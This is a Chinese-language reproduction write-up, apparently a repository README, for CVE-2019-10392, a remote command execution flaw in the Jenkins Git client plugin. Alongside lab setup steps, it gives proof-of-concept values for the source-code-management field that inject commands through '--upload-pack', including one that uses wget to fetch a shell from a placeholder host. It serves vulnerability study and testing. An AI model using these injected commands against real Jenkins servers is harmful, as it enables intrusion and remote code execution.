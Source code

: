 ## 描述

jenkins最近又出来一个rce，是关于git-client插件的，该插件是默认安装的，然而这个漏洞利用需要高权限，所以影响也就打了折扣。

### 影响范围：

Git client Plugin <= 2.8.4

## 复现
在本地复现搭建jenkins，安装要选插件安装，把git去掉，否则会直接安装最新版本的git插件。`git-client.hpi`是2.8.4的插件，手动安装即可。

新建一个任务，漏洞位于源码管理处，且该漏洞可回显:

![image](https://github.com/guobaoyou/vul_environment/blob/master/CVE-2019-10392/image.jpg)

poc:
命令是通过ProcessBuilder下执行的

window下：--upload-pack=\`id\`

linux下： --upload-pack=wget http://xxxx/shell

macos下弹计算器（我没试过，看奇安信里分析里给出的）: --upload-pack=/Applications/Calculator.app/Contents/MacOS/Calculator 

本项目里的`data.txt`为windows 2008下的请求包


## 注意

如果是在windows下复现，如果出现失败，可能是git没有配置环境，可按下图配置

![image](https://github.com/guobaoyou/vul_environment/blob/master/CVE-2019-10392/image2.jpg)

## 总结

已经有分析了，指路：
https://mp.weixin.qq.com/s/7yUFVj0y7PYE3ZszEszjHw
